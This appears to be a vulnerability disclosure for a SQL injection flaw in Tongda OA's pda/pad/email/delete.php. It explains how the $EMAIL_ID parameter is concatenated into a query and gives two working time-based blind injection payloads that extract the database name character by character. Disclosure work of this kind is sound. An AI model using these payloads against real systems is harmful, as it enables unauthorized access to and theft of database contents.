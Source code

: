 SQL injection vulnerability exists in Tongda OA

version:Versions below v11.10 and v2017

Route: pda/pad/email/delete.php

There is an injected parameter: $EMAIL_ID

The code here is very concise. When $EMAIL_ID is not empty, the parameters are directly spliced ​​into the SQL statement. Since the parentheses are closed here, there is a bypass.

![image](https://github.com/13223355/cve/assets/115934830/656f22b2-5217-48f1-ac32-fde509520939)

2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/13223355/cve/assets/115934830/8c8ffc16-566c-495b-a3f4-62fb78f57338)

And when we change 116 to 115, there will be no delay, indicating the existence of SQL injection.

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://github.com/13223355/cve/assets/115934830/155135c9-5896-45a2-90da-8c28ffe14cf9)

